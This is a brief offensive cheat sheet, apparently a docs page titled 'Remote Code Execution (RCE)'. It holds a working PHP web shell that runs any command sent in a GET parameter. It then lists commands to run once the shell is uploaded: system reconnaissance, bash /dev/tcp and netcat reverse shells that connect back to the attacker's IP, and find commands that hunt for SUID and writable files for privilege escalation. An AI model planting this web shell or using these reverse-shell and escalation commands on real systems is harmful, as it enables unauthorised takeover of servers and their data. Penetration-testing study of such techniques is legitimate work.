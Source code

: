 ```yaml
---
title: Remote Code Execution (RCE)
sidebar_position: 1
---
```


## Get shell (PHP)
```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```



**Commands to try after successful shell upload.**
- `whoami` - Prints the username.
- `pwd` - Prints working directory.
- `ls` - Lists all files in the directory.
- `uname -a` - Gives system information.
- `bash -i >& /dev/tcp/<your-ip>/<port> 0>&1` - Get reverse shell via bash.
- `nc -e /bin/sh <your-ip> <port>` - Get reverse shell via netcat.
- `find / -perm -4000 -type f 2>/dev/null` - Find SUID files. Useful for previlege escalation.
- `find / -writable -type  f 2>/dev/null | grep -v "/proc/"` - Find files with writable permissions. Useful for previlege escalation.